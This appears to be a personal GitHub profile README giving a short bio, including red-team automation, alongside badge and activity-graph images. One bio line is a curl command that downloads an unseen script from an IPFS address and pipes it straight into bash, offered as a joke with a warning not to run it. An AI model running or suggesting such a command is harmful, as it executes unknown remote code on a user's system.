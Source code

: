##  👋🏽 What's good

💻 Playing on the internet  
🧠 Working on myself (and my dotfiles)  
🎯 Ex-CCDC, still automating red team chaos  
⌨️ Clicky collector (Zelios supremacy)  
🛠️ Currently learing Golang + Rust  
🎀 Open source over everything  
🍥 `curl -s https://ipfs.io/ipfs/bafybeifm63mimspod5szffev2nhja4eumcb3dpsmyehrxcyxu72zqvqjne/index.sh | bash`  *(👀 maybe don’t run that)*
[mztriz.eth](https://mztriz.eth)
---

[![Holopin board](https://holopin.io/api/user/board?user=mztriz)](https://holopin.io/@mztriz)

---
[![Ava's GH Activity Graph](https://github-readme-activity-graph.vercel.app/graph?username=asbarron&theme=cotton-candy&area=true&hide_border=true)](https://github.com/asbarron/github-readme-activity-graph)
